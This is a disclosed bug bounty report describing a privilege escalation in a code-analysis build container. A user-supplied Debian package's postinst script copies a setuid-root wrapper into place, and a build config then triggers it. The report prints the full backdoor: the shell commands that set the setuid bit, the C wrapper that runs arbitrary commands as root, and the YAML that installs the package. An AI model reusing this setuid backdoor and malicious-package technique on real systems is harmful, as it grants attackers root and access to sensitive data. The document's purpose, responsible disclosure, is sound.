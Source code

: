 # Privilege escalation in workers container 

## Report Details
- **Report ID**: 692603
- **URL**: https://hackerone.com/reports/692603
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-11T21:37:46.480Z
- **Disclosed**: 2019-09-25T01:31:38.767Z

## Reporter
- **Username**: testanull
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semmle

## Vulnerability Information
## Summary about the bugs:
In the prepare step, semmle allows user to install new package.

By upload a malicious package along with source code and force server to build this package, attacker will gain root access to the container

## Steps:

1. Create a malicious package contains the backdoor:

I use this guide (https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/) to create the package.

With the content of ``postinst`` is

```
#!/bin/sh

ps -ef
sudo cp /opt/src/run /suidfs/passwd && sudo chown root:root /suidfs/passwd && sudo chmod 04755 /suidfs/passwd && ln -s /suidfs/passwd /usr/bin/setpasswd && setpasswd id &

```

Content of ``/opt/src/run``:

```
#include <stdio.h>
void main(int argc, char *argv[]) {
    setreuid(0, 0);
    system(argv[1]);
}
```
After that i will got a malicious ``.deb`` package.

2. Create a config file to install this malicious package:

Because the source code is imported before the ``prepare`` step happens, so i will be able to install this package by point directly to it like this ``/opt/src/work.deb``.

The install command now will be like this ``apt install -y --no-recommend /opt/src/work.deb``. And it is ``legal``.

The build config:
```
extraction:
  java:
    prepare:
      packages:
        - /opt/src/work.deb
    after_prepare:
      - echo pwned >> /opt/out/snapshot/log/build.log
      - /usr/bin/setpasswd 'id'
```
After that the build will failed, and attacker will get root on the container by running the setuid backdoor

## PoC is attached below

Thanks & regard!

## Impact

Attacker will get root access and will be able to dump every sensitive datas in the server!

## Attachments
- sem4.PNG
